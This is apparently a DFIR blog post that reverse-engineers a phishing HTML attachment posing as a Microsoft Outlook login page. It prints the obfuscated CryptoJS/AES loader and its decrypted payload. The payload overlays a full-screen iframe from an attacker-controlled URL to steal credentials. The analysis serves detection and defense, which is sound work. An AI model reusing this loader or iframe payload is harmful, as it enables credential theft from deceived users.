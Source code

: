 ```yaml
---
draft: false 
date: 2024-12-02
categories:
  - Technical
  - DFIR
  - RE
---
```


# Reversing a Phishing Webpage
*This blog shows the steps of analyzing and reverse engineering a Microsoft Outlook login page that is sent through phishing email.*
<!-- more -->

## Overview
This blog post explores the reverse engineering of a self-contained phishing webpage disguised as a Microsoft Outlook login page, which was delivered as an HTML attachment in a phishing email targeting an organization's employees. The phishing page operates independently, embedding the recipient’s email to enhance credibility while using obfuscated JavaScript and encrypted payloads to evade detection. By analyzing its structure, deobfuscating encoded scripts, and decrypting hidden content, we uncover how attackers craft deceptive login portals to steal credentials. Understanding these techniques helps in detecting, mitigating, and preventing similar phishing threats in the future.

!!! question "What is a self-contained webpage?"
    A self-contained webpage is a web page that includes all its resources in a single file, which means that it works without relying on any external resources or files.


## Analyzing the Webpage
---
![](images/rev-phish-1.png)
After verifying the file type using `file` command, we can confirm that it is a HTML file.

![](images/rev-phish-6.png)
Viewing the HTML file in the browser in a safe environment, we can see that it is presented as a fake Microsoft login page, with a specific email of the victim in the organization. Therefore, we can confirm that this is indeed a phishing page.

!!! note
    Note that this page will not load properly when it is opened in Linux environment. Therefore, we can say that this phishing attempt is targeted to Windows users only.

![](images/rev-phish-2.png)
By viewing the details in the HTML file, we can see that there is a suspicious code which is base64 encoded. Decoding it will give us another link.

### View Element / Inspect the Webpage
![](images/rev-phish-7.png)
Inspecting the page in the browser will see that it is trying to load other links.

![](images/rev-phish-8.png)
Looking through the Network tab shows that it is visiting several links that look suspicious.

### Deobfuscate the Code
![](images/rev-phish-9.png)
Visiting the suspicious link will direct us to a similar Microsoft login page. From here, we are able to know that how the self-contained webpage without much elements can present a Microsoft login page to the victim as they are loading an external link to display the page.

![](images/rev-phish-3.png)
Browsing to another suspicious link from the Network tab will give us some obfuscated JavaScript code and some suspicious base64 encoded strings. Decoding the base64 encoded strings will give us the result below:

```
{"a":"uOkAOFJp02TwxVmtqz56AXKEkKO7zTFH8+qx\/eFWLVX0aJdFiaOTGZGPO7otVOmVB85\/76zM4X8NjLBvGjKtUJ7IlNXPRsrF6uikrMSIZInPcCMAQXXXPRbxckS4OCN1Ey0A+trNAoWfObVyULJpdtISulWZsmt+iJE1u6zudKZiYh7Mgz9mrLkXl4LpoFcZW0+\/7HyPjkK+Szr5uoC+aNrUQgvb1ZGKnA7TQjjj4FzQl1yATbLAfhdC8N3tkSE0BmZuo2jd3uSoMkRxW6BDsbioI+pvyRz5VtUrnP2GULpPy4WkCcBxWB6RUKqMwC9duyDyHt7g77n2JhGj2kwpK+e3x5vZSllp8n\/zEIoHum2+cwmA5RPfPDI+nUWIGcEaH2Yxhfd6U8u5INT+ajIhy9AGf7FYTtkLujIIxz\/5TcjIjV75Ccu1o0CEaRLHssjSN9HQpz6a6A91WTJ7IGDXvBuMVDPjwosBWcftoaY39yxk+vZcOmq5tB1FJ7j1nAAEkMWcmpr9JjhFgDfEw71FvE8qpL4YdBZDnIhVqVYk8L4I\/etWk4\/nbHrDnUduvx+v34khbPSKJo2PZJ7yf0CQtoZ40qBK0\/tZqKF8nnArmCAgkdTzX3CA+4E1b9DATWgxwnqgeR8hjQ6W682FAIDgl2VVEGaE+Gl8T8HLBFgaVS7v7MPhXacIH49W1ytIFXCK1mW5aGnPZgjr56KF9B3v\/gdg4+6DD+AY0x6k4PuxDOWmzjBgnOwX0fp5WykhTWSNHLtkuTfMvLlfryOmflu4iZ7QaZAZXhHi+IRDkQQ2Y86ByA9t9rz5b9\/C8B0FkyaahHaXug4WTtROTaq9loI2x2N234vwNvZAb233hxASAEHF3lTbIpjXxygunyEImD+we5MGWeKwMdGPhHHfwVMReO5kzBWZJQpR5IlTjU3CdavDp+ONC81DeUoHSH18iO6e\/xr3MliBcgG5CQO3oxOF0UsNToHm0IcLxqDGdz7OD2oEUBDvYoEDXS2byGQWdmtziHtMQU9iFr+p8igZaZgbdX8uCqSjXEwj516BjDGTuEiw8kOAUEt8L2qYVZDWMttumXOUFcMz1Dsp\/O+23JtgxQ==","b":"67e80d86d161031a","c":"64c7d68a087d16c1","d":"3732386231353330313339636133633132313935343332366564333138383532"}
```

## Reversing the Code
---
By combining the decoded base64 code, this will be the complete code:

```
var vREUMQflsVlGKTMy = document.createElement("script");
vREUMQflsVlGKTMy.setAttribute("src","https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/crypto-js.min.js");
document.head.append(vREUMQflsVlGKTMy);
vREUMQflsVlGKTMy.onload=function(){
var {a,b,c,d} = JSON.parse({"a":"uOkAOFJp02TwxVmtqz56AXKEkKO7zTFH8+qx\/eFWLVX0aJdFiaOTGZGPO7otVOmVB85\/76zM4X8NjLBvGjKtUJ7IlNXPRsrF6uikrMSIZInPcCMAQXXXPRbxckS4OCN1Ey0A+trNAoWfObVyULJpdtISulWZsmt+iJE1u6zudKZiYh7Mgz9mrLkXl4LpoFcZW0+\/7HyPjkK+Szr5uoC+aNrUQgvb1ZGKnA7TQjjj4FzQl1yATbLAfhdC8N3tkSE0BmZuo2jd3uSoMkRxW6BDsbioI+pvyRz5VtUrnP2GULpPy4WkCcBxWB6RUKqMwC9duyDyHt7g77n2JhGj2kwpK+e3x5vZSllp8n\/zEIoHum2+cwmA5RPfPDI+nUWIGcEaH2Yxhfd6U8u5INT+ajIhy9AGf7FYTtkLujIIxz\/5TcjIjV75Ccu1o0CEaRLHssjSN9HQpz6a6A91WTJ7IGDXvBuMVDPjwosBWcftoaY39yxk+vZcOmq5tB1FJ7j1nAAEkMWcmpr9JjhFgDfEw71FvE8qpL4YdBZDnIhVqVYk8L4I\/etWk4\/nbHrDnUduvx+v34khbPSKJo2PZJ7yf0CQtoZ40qBK0\/tZqKF8nnArmCAgkdTzX3CA+4E1b9DATWgxwnqgeR8hjQ6W682FAIDgl2VVEGaE+Gl8T8HLBFgaVS7v7MPhXacIH49W1ytIFXCK1mW5aGnPZgjr56KF9B3v\/gdg4+6DD+AY0x6k4PuxDOWmzjBgnOwX0fp5WykhTWSNHLtkuTfMvLlfryOmflu4iZ7QaZAZXhHi+IRDkQQ2Y86ByA9t9rz5b9\/C8B0FkyaahHaXug4WTtROTaq9loI2x2N234vwNvZAb233hxASAEHF3lTbIpjXxygunyEImD+we5MGWeKwMdGPhHHfwVMReO5kzBWZJQpR5IlTjU3CdavDp+ONC81DeUoHSH18iO6e\/xr3MliBcgG5CQO3oxOF0UsNToHm0IcLxqDGdz7OD2oEUBDvYoEDXS2byGQWdmtziHtMQU9iFr+p8igZaZgbdX8uCqSjXEwj516BjDGTuEiw8kOAUEt8L2qYVZDWMttumXOUFcMz1Dsp\/O+23JtgxQ==","b":"67e80d86d161031a","c":"64c7d68a087d16c1","d":"3732386231353330313339636133633132313935343332366564333138383532"});
var cZGceBhgvsmehtWx = CryptoJS.PBKDF2(CryptoJS.enc.Hex.parse(d),CryptoJS.enc.Hex.parse(b),{hasher:CryptoJS.algo.SHA512,keySize:64/8,iterations:999});
BvfzMQepfEJSRDWS = CryptoJS.AES.decrypt(a,cZGceBhgvsmehtWx,{iv:CryptoJS.enc.Hex.parse(c)}).toString(CryptoJS.enc.Utf8);
BvfzMQepfEJSRDWS = BvfzMQepfEJSRDWS.replace(/taPrwRNRJOtebyHj/g, NeaAWu);
document.write(BvfzMQepfEJSRDWS);
}
```
After getting the complete code, we need to understand it line by line in order to decrypt the code.

```
var cZGceBhgvsmehtWx = CryptoJS.PBKDF2(CryptoJS.enc.Hex.parse(d),CryptoJS.enc.Hex.parse(b),{hasher:CryptoJS.algo.SHA512,keySize:64/8,iterations:999});
```
This line of code is using the CryptoJS library to perform a key derivation function (KDF) called PBKDF2 (Password-Based Key Derivation Function 2). The purpose of PBKDF2 is to securely derive a cryptographic key from a password or passphrase. The PBKDF2 key created is stored in a variable named `cZGceBhgvsmehtWx`. According to the [CryptoJS documentation](https://cryptojs.gitbook.io/docs#pbkdf2), the parameter is defined as `CryptoJS.PBKDF2(passphrase, salt, keysize)`. Including all other parameters, we can conclude that: 
- passphrase = d
- salt = b
- hash = 512
- key size = 64 bits
- iterations = 999

![](images/rev-phish-4.png)
However, for some unknown reason, the key size is incorrect. In the end, we need to use trial and error method to find out that the key size is 256 bit. Using all the information we have, we can then derive a key using [CyberChef](https://gchq.github.io/CyberChef/). 

```js {frame="none"}
BvfzMQepfEJSRDWS = CryptoJS.AES.decrypt(a,cZGceBhgvsmehtWx,{iv:CryptoJS.enc.Hex.parse(c)}).toString(CryptoJS.enc.Utf8);
BvfzMQepfEJSRDWS = BvfzMQepfEJSRDWS.replace(/taPrwRNRJOtebyHj/g, NeaAWu);
document.write(BvfzMQepfEJSRDWS);
```
This line of code decrypts a AES-encrypted content. According to the [CryptoJS documentation](https://cryptojs.gitbook.io/docs#pbkdf2), the parameter is defined as `CryptoJS.AES.decrypt(encrypted-msg, passphrase)`. Including all other parameters, we can conclude that: 
- encrypted-msg = a
- passphrase = cZGceBhgvsmehtWx (which we decoded previously)
- iv = c

![](images/rev-phish-5.png)
Do note that we need to base64 decode the variable `a` before we use AES decrypt as the content is encoded in base64 initially. With all the information given, we will be able to decrypt the content. 

Decrypted content:
 
```
var ifMgQMPeYEbXJsAn = document.createElement('iframe');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-same-origin');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-top-navigation');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-modals');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-scripts');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-popups-to-escape-sandbox');
    ifMgQMPeYEbXJsAn.sandbox.add('allow-forms');
    ifMgQMPeYEbXJsAn.src =  "https://href.li/?https://xociso.leciphom.com/GnSzT/"+"taPrwRNRJOtebyHj";
    ifMgQMPeYEbXJsAn.style.cssText = 'position: fixed; inset: 0px; width: 100%; height: 100%; border: 0px; margin: 0px;padding: 0px; overflow: hidden; z-index: 999999;';
    document.write(ifMgQMPeYEbXJsAn);
    document.body.innerHTML = "";
    document.body.appendChild(ifMgQMPeYEbXJsAn);
    </script>
```

## Conclusion
---
By reverse engineering this phishing webpage, we uncovered how attackers use self-contained HTML attachments with obfuscated scripts and encrypted payloads to evade detection and steal credentials. The phishing page dynamically loads external content and embeds the victim’s email to appear more convincing. Understanding these techniques enables security professionals to better detect, analyze, and mitigate similar threats, strengthening organizational defenses against phishing attacks.